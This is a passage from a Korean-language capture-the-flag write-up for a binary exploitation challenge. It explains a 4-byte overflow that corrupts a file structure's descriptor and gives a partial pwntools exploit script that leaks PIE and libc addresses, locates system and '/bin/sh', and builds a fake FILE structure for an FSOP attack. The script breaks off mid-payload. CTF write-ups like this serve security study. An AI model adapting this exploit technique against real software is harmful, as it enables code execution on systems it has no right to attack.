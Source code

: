 

그 다음에 입력할 수 있는 값의 최대가 64인데 64를 입력하고 값을 채워보면 4byte overflow가 발생하고 fd의 하위 4byte를 변조할 수 있다. 이 4byte를 우리 인풋의 시작 부분으로 바꾸고, fsop 코드를 작성하면 되는데 문제는 float이기 때문에 이런 함수를 정의해서 사용했다.

```python
from struct import *

def p32_(d):
    return str(unpack("<f", p32(d))[0])
```



```python
from jsec import *

#p = process('./main2_success')
p = remote("bin.q21.ctfsecurinets.com", 1340)
e = ELF('./main2_success')
libc = e.libc

p.sendafter(": ", "1" * 8)
p.recvuntil("1" * 8)
pie_base = u64(p.recv(6).ljust(8, '\x00')) - 0x1090
print hex(pie_base)

p.sendafter(": ", "1" * 0x10)
p.recvuntil("1" * 0x10)
libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x3e82a0
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()
print hex(libc_base)

p.sendlineafter(': ', '_' * 0x62)
p.sendafter(": ", "64")

for i in range(5):
    p.sendafter(': ', p32_(0x0))
    p.sendafter(': ', p32_(0x42424242))

a = ((binsh-100) / 2) + 1
print ("a: " + hex(a))

p.sendafter(': ', p32_(a & 0xffffffff))
p.sendafter(': ', p32_(a >> 32))

for i in range(2):
    p.sendafter(': ', p32_(1))
    p.sendafter(': ', p32_(0))

p.sendafter(': ', p32_(a & 0xffffffff))
p.sendafter(': ', p32_(a >> 32))

for i in range(8):
    p.sendafter(': ', p32_(0))
    p.sendafter(': ', p32_(0x41414141))

b = e.bss() + pie_base + 0x500
print ("b: " + hex(b))
p.sendafter(': ', p32_(b & 0xffffffff))
p.sendafter(': ', p32_(b >> 32))

for i in range(18):
    p.sendafter(': ', p32_(0))

fake = libc_base + 0x3e8368
```